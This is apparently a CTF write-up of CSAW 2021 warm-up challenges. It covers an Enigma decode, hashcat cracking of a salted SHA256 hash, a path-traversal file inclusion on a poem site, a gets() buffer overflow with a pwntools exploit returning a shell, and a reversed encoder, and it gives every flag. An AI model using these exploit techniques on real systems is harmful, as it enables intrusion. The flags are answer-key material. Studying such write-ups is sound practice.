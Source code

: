 +++
title = "CSAW CTF Qualification Round 2021 - warm-up"
date = 2021-09-13
[taxonomies]
tags = ["ctf"]
+++

# Turing

## Task description

Recruiting the next Turing. See if you can break this historic cipher! Ciphertext: `jmodtrr_tdwumtu_cydy_ynsldf` You might need this: M3 UKW B

## Solution

[enigma online decoder](https://cryptii.com/pipes/enigma-decoder) \
foreign chars: include

flag: `flag{scruffy_looking_nerf_herder}`

# Crack Me

## Task description

Can you crack this? Your hash: `a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c`. Your salt: the encryption method of the hash. (So if the hash is of the word example, you would submit flag{example} to score points.) UPDATE Friday 9PM: To streamline your efforts we would like to give you some more details about the format for the hash encryption method. An example: if you think the hash is RIPEMD-128, use ripemd128 for the salt.

## Solution

Using [hash identifier](https://hashes.com/en/tools/hash_identifier) I found out that it's a SHA256 hash.

Then I created a file for hashcat with the possible hashes (that was before the hint was added).

```
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:SHA256
```

And run it on the rockyou wordlist (-m flag explained [here](https://hashcat.net/wiki/doku.php?id=example_hashes)): \
`hashcat -m 1420 --show hashes.txt /usr/share/wordlists/rockyou.txt`

The output: \
`a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256:cathouse`

Therefore, the flag is: `flag{cathouse}`

# poem-collection

## Task description

Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!

## Solution

Unfortunately, the organizers took the ctf's infrastructure down right after it ended but basically the site was printing out a file based on the parameter poem. For example: `http://web.chal.csaw.io:5003/poems/?poem=poem.txt`. In addition, the first time you browse to the site (without any parameter) you see this warning `Warning: file_get_contents(): Filename cannot be empty in /var/www/html/poems/index.php on line 4`.

My first try was: `http://web.chal.csaw.io:5003/poems/?poem=index.php` which dumped the site's code. Then I just tried out `flag.txt` and `../flag.txt` which worked.

The flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

# Password Checker

## Task description

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

[password_checker](files/password_checker)

## Solution

Opening it up in ghidra, we see this decompiled code:

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  password_checker();
  return 0;
}

void password_checker(void)
{
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;

  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}
```

In addition, we find a very convenient function included.

```c
void backdoor(void)
{
  system("/bin/sh");
  return;
}
```

So, the password checking thing is a diversion, what we're really interested in is the fact that the application uses `gets` to read the line. Stack buffer overflow!

Now, to the exploitation. First, generate a cyclic pattern a bit longer than the buffer `gets` writes to:

```
pwn cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

Then, run load the app in gdb and enter the pattern. We get the expected segfault. Let's read the $rsp:

```
(gdb) x/x $rsp
0x7fffffffdf28: 0x61616173
```

Get the length:

```
pwn cyclic -l 0x61616173
72
```

The last thing we need is the backdoor function's address:

```
(gdb) info address backdoor
Symbol "backdoor" is at 0x401172 in a file compiled without debugging.
```

The exploit:

```py3
from pwn import *

# io = process("./password_checker")
io = remote("pwn.chal.csaw.io", 5000)

payload = b"A" * 72 # or just use cyclic_find(0x61616173)
payload += p64(0x00401172)

io.sendline(payload)

io.interactive()
```

The flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

# checker

## Task description

What's up with all the zeros and ones? Where are my letters and numbers? (This is a reversing challenge.)

[checker.py](files/checker.py)

## Solution

I just reversed the algorithm in the main function by adding these lines after the definition of the encrypted flag:

```py3
encoded = encoded[::-1]
encoded = right(encoded, 24)
encoded = down(encoded)
encoded = right(encoded, len(encoded) - 24)

for i in range(0, len(encoded), 8):
    c = int(encoded[i : i + 8], base=2)
    print(chr(c >> 1), end="")
```

The flag: `flag{r3vers!nG_w@rm_Up}`
